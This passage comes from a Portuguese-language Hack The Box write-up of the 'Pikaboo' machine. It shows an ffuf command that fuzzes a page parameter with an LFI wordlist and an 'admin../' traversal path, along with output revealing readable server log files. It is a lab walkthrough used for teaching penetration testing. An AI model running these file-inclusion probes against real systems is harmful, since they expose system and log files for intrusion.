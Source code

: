Caímos em um dashboard com algumas informações sobre o desempenho da página.

Ao enumerar a página, descobrimos que ao clicar em qualquer link, vemos um parâmetro `GET` na url.

<img src="/img/htb/htb-pikaboo-9.png">

Isso nos dá uma dica de que podemos tentar `LFI` através do parâmetro, vamos tentar.

```bash
┌──(hastur㉿hastur)-[~/Pikaboo]
└─$ ffuf -u http://pikaboo.htb/admin../admin_staging/index.php?page=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -t 200 -c -fs 15349 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://pikaboo.htb/admin../admin_staging/index.php?page=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 15349
________________________________________________

/var/log/lastlog        [Status: 200, Size: 307641, Words: 3272, Lines: 368]
/var/log/vsftpd.log     [Status: 200, Size: 19803, Words: 3893, Lines: 414]
/var/log/wtmp           [Status: 200, Size: 169717, Words: 3286, Lines: 558]
:: Progress: [914/914] :: Job [1/1] :: 1079 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```
A busca nos trouxe `/var/log/vsftpd.log` que é o log do `VSFTPd`, vamos acessá-lo.

<img src="/img/htb/htb-pikaboo-10.png">
